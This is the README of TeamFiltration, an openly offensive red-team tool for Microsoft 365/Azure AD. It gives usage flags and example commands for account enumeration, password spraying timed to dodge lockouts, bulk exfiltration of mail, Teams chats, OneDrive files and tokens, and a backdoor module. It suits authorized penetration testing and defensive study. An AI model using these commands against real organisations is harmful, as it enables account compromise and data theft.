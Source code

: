 ﻿## TeamFiltration 
TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts.
See the [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration) wiki page for an introduction into how TeamFiltration works and the [Quick Start  Guide](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration#quick-start-guide) for how to get up and running!

This tool has been used internally since January 2021 and was publicly released in my talk "Taking a Dumb In The Cloud" during DefCON30.

## Download
[You can download the latest precompiled release for Linux, Windows and MacOSX X64 ](https://github.com/Flangvik/TeamFiltration/releases/latest)   

**The releases are precompiled into a single application-dependent binary. The size go up, but you do not need DotNetCore or any other dependencies to run them.**

## Usage

```

  ╓╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╖
 ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╟╬╬╜╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╡                              │      ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╡                              ││      ╙╬╬╜╘ └╙╜╬╬╬╬╬╬
╬╬╬╬╡         ╓╥╥╬╬╬╬╬╬╥╥╖         ││       │        ╬╬╬╬╬
╬╬╬╬╡     ╓╬╫╬╜╜┘      ╙╜╜╬╫╬┐     ││       ││       └╬╬╬╬
╬╬╬╬┤    ╬╬╜╙╩╬╖╓          ╙╬╬╬    ││       ││        ╬╬╬╬
╬╬╬╬┤   ╬╜      ╙╬╫╖╖ ╓      ╙╬╖   ││      ├││        ╬╬╬╬
╬╬╬╬┤  ╬╬     ╓╖   ╙╬╬╬╬╬╬╦    ╬╬  │┌    ╓╬┤││       ╓╬╬╬╬
╬╬╬╬┤ ╓╬┤     ╬╬╬   ╬╬╬╬╬╬╬╬╜╜╜╬╬╖ ╟╬╬╬╬╬╬╬╬╬╕      ┌╬╬╬╬╬
╬╬╬╬┤ ╬╬┤     ╙╩┘   ╙╬╬╬╬╬╩    ╟╬╬ ╙╜╜╜╜╜╜╜╜╜╬╬╖╖╖╦╬╬╬╬╬╬╬
╬╬╬╬┤ ╬╬┤                      ╟╬╬ ││         ╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤  ╬╬   ╦╖            ╗╖   ╬╬  ││         │       ╬╬╬╬
╬╬╬╬┤  └╬┐   ╙╬╖╖      ╓╬╬╜   ╓╬┘  ││         │       ╬╬╬╬
╬╬╬╬┤   └╬╖    ╙╩╨╬╬╬╩╨╜╜   ╒╬╬    ││         │       ╬╬╬╬
╬╬╬╬┤    ╙╬╬╬╖           ┌╖╫╬╜┘    ││         │       ╬╬╬╬
╬╬╬╬┤       ╙╩╬╬╬╥╥╥╥╥╥╫╬╬╜╜       ││         │       ╬╬╬╬
╬╬╬╬┤            ╙╙╜╜╜╛            ││         │       ╬╬╬╬
╬╬╬╬┤                              ││         │    ╓╖╬╬╬╬╬
╬╬╬╬┤                              ││         ╬╦╦╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ││     ╓╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╬╬╬╖╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
 └╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╜
   ╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜╜

[] TeamFiltration V0.3.3.7 PUBLIC, created by @Flangvik @TrustedSec
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module  

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --cookie-dump         Override to target a given account using it's refresk-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit     Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens              Exfiltrate JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks recent Azure Active Directory password brute-forcing vuln for spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --seasons-only        Password generated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --combo               Path to a combolist of username:password
         --exclude              Path to a list of emails to exclude from spraying

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --delay               Delay in seconds between each individual authentication attempt. default=0
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Add burp as a proxy on 127.0.0.1:8080

   Examples:

        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --all 
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --aad  
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --database
```

## Credits

- [GitHub - KoenZomers/OneDriveAPI: API in .NET to communicate with OneDrive Personal and OneDrive for Business](https://github.com/KoenZomers/OneDriveAPI)
- [Research into Undocumented Behavior of Azure AD Refresh Tokens ](https://github.com/secureworks/family-of-client-ids-research) 
- [WS API Gateway management tool for creating on the fly HTTP pass-through proxies for unique IP rotation](https://github.com/ustayready/fireprox)
- Credits to [Ryan] (https://twitter.com/detectdotdev) for validating and discussing my observations / questions!
- The entire [TrustedSec](https://TrustedSec.com) team for helping me polish this tool! 

